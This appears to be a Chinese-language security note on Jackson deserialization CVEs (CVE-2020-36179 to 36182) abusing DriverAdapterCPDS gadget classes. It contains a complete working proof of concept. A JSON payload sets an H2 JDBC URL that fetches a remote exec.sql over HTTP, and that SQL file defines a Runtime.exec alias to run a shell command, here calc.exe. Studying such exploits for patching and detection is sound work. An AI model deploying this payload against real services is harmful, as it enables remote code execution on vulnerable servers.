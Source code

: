 ### 常见Jackson的Exception
- https://www.baeldung.com/jackson-exception

### 多个CVE(SSRF to RCE)
- CVE-2020-36179：`oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36180：`org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36181：`org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36182：`org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS`

Ref: 
- https://github.com/Al1ex/CVE-2020-36179
- https://github.com/threedr3am/learnjavabug/tree/master/jackson/src/main/java/com/threedr3am/bug/jackson/rce


原理差不多，
```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```

### PoC
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

#### exec.sql
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

